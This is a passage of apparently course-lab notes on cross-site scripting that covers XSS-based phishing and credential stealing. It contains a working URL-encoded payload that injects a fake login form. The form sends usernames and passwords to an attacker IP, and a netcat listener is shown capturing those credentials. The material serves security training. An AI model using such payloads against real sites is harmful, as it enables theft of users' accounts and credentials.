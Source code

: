 This is because our injected JavaScript code changes the look of the page when it gets executed, which in this case, is at the end of the source code. If our injection was in an element in the middle of the source code, then other scripts or elements may get added to after it, so we would have to account for them to get the final look we need.

## Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

Example:

```html
'><script>document.write('<h3>Please+login+to+continue<%2Fh3><form+action%3Dhttp%3A%2F%2F10.10.14.91:800/tmpserver/index.php><input+type%3D"username"+name%3D"username"+placeholder%3D"Username"><input+type%3D"password"+name%3D"password"+placeholder%3D"Password"><input+type%3D"submit"+name%3D"submit"+value%3D"Login"><%2Fform>')%3Bdocument.getElementById('urlform').remove()%3B<%2Fscript><!--
```

![](Pasted%20image%2020240724121526.png)

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell
sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```
